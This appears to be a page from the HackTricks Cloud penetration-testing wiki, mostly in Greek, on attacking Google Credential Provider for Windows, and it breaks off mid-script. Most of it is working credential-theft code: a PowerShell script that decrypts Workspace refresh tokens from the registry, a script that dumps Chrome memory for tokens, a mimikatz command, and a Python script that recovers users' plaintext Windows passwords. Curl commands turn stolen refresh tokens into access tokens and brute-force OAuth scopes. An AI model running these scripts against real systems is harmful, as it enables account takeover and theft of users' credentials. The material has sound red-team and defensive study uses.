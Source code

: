 # GWS - Workspace Sync Attacks (GCPW, GCDS, Directory Sync with AD & EntraID)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## GCPW - Google Credential Provider for Windows

Αυτό είναι το single sign-on που παρέχει το Google Workspaces ώστε οι χρήστες να μπορούν να συνδεθούν στους υπολογιστές Windows τους χρησιμοποιώντας **τα διαπιστευτήρια Workspace τους**. Επιπλέον, αυτό θα αποθηκεύσει tokens για την πρόσβαση στο Google Workspace σε ορισμένα μέρη του υπολογιστή.

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GCPW**, get information about the configuration and **even tokens**.
{% endhint %}

### GCPW - MitM

Όταν ένας χρήστης έχει πρόσβαση σε έναν υπολογιστή Windows συγχρονισμένο με το Google Workspace μέσω GCPW, θα χρειαστεί να συμπληρώσει μια κοινή φόρμα σύνδεσης. Αυτή η φόρμα σύνδεσης θα επιστρέψει έναν κωδικό OAuth που ο υπολογιστής θα ανταλλάξει για το refresh token σε ένα αίτημα όπως: 

{% code overflow="wrap" %}
```http
POST /oauth2/v4/token HTTP/2
Host: www.googleapis.com
Content-Length: 311
Content-Type: application/x-www-form-urlencoded
[...headers...]

scope=https://www.google.com/accounts/OAuthLogin
&grant_type=authorization_code
&client_id=77185425430.apps.googleusercontent.com
&client_secret=OTJgUOQcT7lO7GsGZq2G4IlT
&code=4/0AVG7fiQ1NKncRzNrrGjY5S02wBWBJxV9kUNSKvB1EnJDCWyDmfZvelqKp0zx8jRGmR7LUw
&device_id=d5c82f70-71ff-48e8-94db-312e64c7354f
&device_type=chrome
```
{% endcode %}

New lines have been added to make it more readable.

{% hint style="info" %}
Ήταν δυνατόν να εκτελεστεί μια MitM εγκαθιστώντας το `Proxifier` στον υπολογιστή, αντικαθιστώντας το δυαδικό αρχείο `utilman.exe` με ένα `cmd.exe` και εκτελώντας τα **χρηστικά χαρακτηριστικά** στη σελίδα σύνδεσης των Windows, τα οποία θα εκτελέσουν ένα **CMD** από το οποίο μπορείτε να **εκκινήσετε και να ρυθμίσετε το Proxifier**.\
Μην ξεχάσετε να **μπλοκάρετε την κυκλοφορία QUICK UDP** στο `Proxifier` ώστε να υποβαθμιστεί σε επικοινωνία TCP και να μπορείτε να τη δείτε.

Επίσης, ρυθμίστε στις "Υπηρεσίες και άλλοι χρήστες" και τις δύο επιλογές και εγκαταστήστε το πιστοποιητικό Burp CA στα Windows.
{% endhint %}

Επιπλέον, προσθέτοντας τα κλειδιά `enable_verbose_logging = 1` και `log_file_path = C:\Public\gcpw.log` στο **`HKLM:\SOFTWARE\Google\GCPW`** είναι δυνατόν να αποθηκεύει κάποια αρχεία καταγραφής.

### GCPW - Δακτυλικό αποτύπωμα

Είναι δυνατόν να ελέγξετε αν το GCPW είναι εγκατεστημένο σε μια συσκευή ελέγχοντας αν υπάρχει η παρακάτω διαδικασία ή αν υπάρχουν τα παρακάτω κλειδιά μητρώου:
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
Στο **`HKCU:\SOFTWARE\Google\Accounts`** είναι δυνατή η πρόσβαση στο email του χρήστη και στο κρυπτογραφημένο **refresh token** αν ο χρήστης έχει συνδεθεί πρόσφατα.

Στο **`HKLM:\SOFTWARE\Google\GCPW\Users`** είναι δυνατή η εύρεση των **domains** που επιτρέπεται να συνδεθούν στο κλειδί `domains_allowed` και σε υποκλειδιά είναι δυνατή η εύρεση πληροφοριών για τον χρήστη όπως email, εικόνα, όνομα χρήστη, διάρκεια ζωής token, χειριστής token...

{% hint style="info" %}
Ο χειριστής token είναι ένα token που ξεκινά με `eth.` και από το οποίο μπορεί να εξαχθεί κάποια πληροφορία με ένα αίτημα όπως:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'token_handle=eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg'
# Example response
{
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 12880152
}
```
{% endcode %}

Επίσης, είναι δυνατόν να βρείτε το token handle ενός access token με ένα αίτημα όπως:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'access_token=<access token>'
# Example response
{
"issued_to": "77185425430.apps.googleusercontent.com",
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 1327,
"access_type": "offline",
"token_handle": "eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg"
}
```
{% endcode %}

Αφού γνωρίζω, δεν είναι δυνατόν να αποκτηθεί ένα refresh token ή access token από το token handle.
{% endhint %}

Επιπλέον, το αρχείο **`C:\ProgramData\Google\Credential Provider\Policies\<sid>\PolicyFetchResponse`** είναι ένα json που περιέχει τις πληροφορίες διαφόρων **ρυθμίσεων** όπως `enableDmEnrollment`, `enableGcpAutoUpdate`, `enableMultiUserLogin` (αν αρκετοί χρήστες από το Workspace μπορούν να συνδεθούν στον υπολογιστή) και `validityPeriodDays` (αριθμός ημερών που ένας χρήστης δεν χρειάζεται να επαληθευτεί απευθείας με την Google).

### GCPW - Tokens Ανανεώσεως Μητρώου

Μέσα στο μητρώο **`HKCU:\SOFTWARE\Google\Accounts`** μπορεί να είναι δυνατόν να βρείτε κάποιους λογαριασμούς με το **`refresh_token`** κρυπτογραφημένο μέσα. Η μέθοδος **`ProtectedData.Unprotect`** μπορεί εύκολα να το αποκρυπτογραφήσει.

<details>

<summary>Απόκτηση <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> δεδομένων και αποκρυπτογράφηση refresh_tokens</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

Παράδειγμα εξόδου:

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

Όπως εξηγείται σε [**αυτό το βίντεο**](https://www.youtube.com/watch?v=FEQxHRRP\_5I), αν δεν βρείτε το token στο μητρώο, είναι δυνατόν να τροποποιήσετε την τιμή (ή να διαγράψετε) από **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** και την επόμενη φορά που ο χρήστης θα έχει πρόσβαση στον υπολογιστή, θα χρειαστεί να συνδεθεί ξανά και το **token θα αποθηκευτεί στο προηγούμενο μητρώο**.

### GCPW - Tokens ανανέωσης δίσκου

Το αρχείο **`%LocalAppData%\Google\Chrome\User Data\Local State`** αποθηκεύει το κλειδί για την αποκρυπτογράφηση των **`refresh_tokens`** που βρίσκονται μέσα στα **προφίλ Google Chrome** του χρήστη όπως:

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

Είναι δυνατόν να βρείτε κάποιο **C# code** που έχει πρόσβαση σε αυτά τα tokens με αποκρυπτογραφημένο τρόπο στο [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe).

Επιπλέον, η κρυπτογράφηση μπορεί να βρεθεί σε αυτόν τον κώδικα: [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

Μπορεί να παρατηρηθεί ότι χρησιμοποιείται το AESGCM, το κρυπτογραφημένο token ξεκινά με μια **έκδοση** (**`v10`** αυτή τη στιγμή), στη συνέχεια [**έχει 12B nonce**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42), και στη συνέχεια έχει το **cypher-text** με ένα τελικό **mac 16B**.

### GCPW - Dumping tokens από τη μνήμη διαδικασιών

Το παρακάτω script μπορεί να χρησιμοποιηθεί για να **dump** κάθε **Chrome** διαδικασία χρησιμοποιώντας το `procdump`, να εξάγει τις **αλφαβητικές ακολουθίες** και στη συνέχεια να **αναζητήσει** ακολουθίες σχετικές με **access και refresh tokens**. Αν το Chrome είναι συνδεδεμένο σε κάποια Google τοποθεσία, κάποια **διαδικασία θα αποθηκεύει refresh και/ή access tokens στη μνήμη!**

<details>

<summary>Dump Chrome processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

Δοκίμασα το ίδιο με το `gcpw_extension.exe` αλλά δεν βρήκε κανένα token.

Για κάποιο λόγο, **ορισμένα εξαγόμενα access tokens δεν θα είναι έγκυρα (αν και κάποια θα είναι)**. Δοκίμασα το παρακάτω σενάριο για να αφαιρέσω χαρακτήρες 1 προς 1 για να προσπαθήσω να αποκτήσω το έγκυρο token από την εξαγωγή. Ποτέ δεν με βοήθησε να βρω ένα έγκυρο, αλλά ίσως να βοηθήσει:

<details>

<summary>Έλεγχος access token αφαιρώντας χαρακτήρες 1 προς 1</summary>
```bash
#!/bin/bash

# Define the initial access token
access_token="ya29.a0AcM612wWX6Pe3Pc6ApZYknGs5n66W1Hr1CQvF_L_pIm3uZaXWisWFabzxheYCHErRn28l2UOJuAbMzfn1TUpSKqvYvlhXJpxQsKEtwhYXzN2BZdOQNji0EXfF7po1_0WaxhwqOiE0CFQciiL8uAmkRsoXhq9ekC_S8xLrODZ2yKdDR6gSFULWaiIG-bOCFx3DkbOdbjAk-U4aN1WbglUAJdLZh7DMzSucIIZwKWvBxqqajSAjrdW0mRNVN2IfkcVLPndwj7fQJV2bQaCgYKAbQSAQ4SFQHGX2MiPuU1D-9-YHVzaFlUo_RwXA0277"

# Define the URL for the request
url="https://www.googleapis.com/oauth2/v1/tokeninfo"

# Loop until the token is 20 characters or the response doesn't contain "error_description"
while [ ${#access_token} -gt 20 ]; do
# Make the request and capture the response
response=$(curl -s -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=$access_token" $url)

# Check if the response contains "error_description"
if [[ ! "$response" =~ "error_description" ]]; then
echo "Success: Token is valid"
echo "Final token: $access_token"
echo "Response: $response"
exit 0
fi

# Remove the last character from the token
access_token=${access_token:0:-1}

echo "Token length: ${#access_token}"
done

echo "Error: Token invalid or too short"
```
</details>

### GCPW - Ανάκτηση του καθαρού κειμένου του κωδικού πρόσβασης

Για να εκμεταλλευτείτε το GCPW για να ανακτήσετε το καθαρό κείμενο του κωδικού πρόσβασης, είναι δυνατόν να εξαγάγετε τον κωδικό πρόσβασης που είναι κρυπτογραφημένος από το **LSASS** χρησιμοποιώντας το **mimikatz**:
```bash
mimikatz_trunk\x64\mimikatz.exe token::elevate lsadump::secrets exit
```
Στη συνέχεια, αναζητήστε το μυστικό όπως `Chrome-GCPW-<sid>` όπως στην εικόνα:

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

Στη συνέχεια, με ένα **access token** με το πεδίο `https://www.google.com/accounts/OAuthLogin` είναι δυνατό να ζητήσετε το ιδιωτικό κλειδί για να αποκρυπτογραφήσετε τον κωδικό πρόσβασης:

<details>

<summary>Script για να αποκτήσετε τον κωδικό πρόσβασης σε καθαρό κείμενο δεδομένου του access token, του κωδικού πρόσβασης που έχει κρυπτογραφηθεί και του resource id</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

Είναι δυνατόν να βρείτε τα βασικά στοιχεία αυτού στον πηγαίο κώδικα του Chromium:

* API domain: [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code)
* API endpoint: [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70)

### GCPW - Δημιουργία διαπιστευτηρίων πρόσβασης από διαπιστευτήρια ανανέωσης

Χρησιμοποιώντας το διαπιστευτήριο ανανέωσης, είναι δυνατόν να δημιουργηθούν διαπιστευτήρια πρόσβασης χρησιμοποιώντας το και το client ID και client secret που καθορίζονται στην παρακάτω εντολή:
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - Scopes

{% hint style="info" %}
Σημειώστε ότι ακόμη και αν έχετε ένα refresh token, δεν είναι δυνατόν να ζητήσετε οποιοδήποτε scope για το access token καθώς μπορείτε να ζητήσετε μόνο τα **scopes που υποστηρίζονται από την εφαρμογή όπου δημιουργείτε το access token**.

Επίσης, το refresh token δεν είναι έγκυρο σε κάθε εφαρμογή.
{% endhint %}

Από προεπιλογή, το GCPW δεν θα έχει πρόσβαση ως χρήστης σε κάθε πιθανό OAuth scope, οπότε χρησιμοποιώντας το παρακάτω σενάριο μπορούμε να βρούμε τα scopes που μπορούν να χρησιμοποιηθούν με το `refresh_token` για να δημιουργήσουμε ένα `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Και αυτό είναι το αποτέλεσμα που πήρα τη στιγμή που έγραφα:
```
Valid scopes:
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
```
Επιπλέον, ελέγχοντας τον πηγαίο κώδικα του Chromium είναι δυνατόν να [**βρείτε αυτό το αρχείο**](https://github.com/chromium/chromium/blob/5301790cd7ef97088d4862465822da4cb2d95591/google\_apis/gaia/gaia\_constants.cc#L24), το οποίο περιέχει **άλλες σφαίρες** που μπορεί να υποτεθεί ότι **δεν εμφανίζονται στη λίστα που έχει προηγουμένως υποστεί βίαιη δοκιμή**. Επομένως, αυτές οι επιπλέον σφαίρες μπορούν να υποτεθούν:

<details>

<summary>Επιπλέον σφαίρες</summary>
```
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/aidahttps://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome
```
</details>

Σημειώστε ότι το πιο ενδιαφέρον είναι πιθανώς:
```c
// OAuth2 scope for access to all Google APIs.
const char kAnyApiOAuth2Scope[] = "https://www.googleapis.com/auth/any-api";
```
Ωστόσο, προσπάθησα να χρησιμοποιήσω αυτό το πεδίο για να αποκτήσω πρόσβαση στο gmail ή να καταγράψω ομάδες και δεν λειτούργησε, οπότε δεν ξέρω πόσο χρήσιμο είναι ακόμα.

**Αποκτήστε ένα διακριτικό πρόσβασης με όλα αυτά τα πεδία**:

<details>

<summary>Bash script για τη δημιουργία διακριτικού πρόσβασης από refresh_token με όλα τα πεδία</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
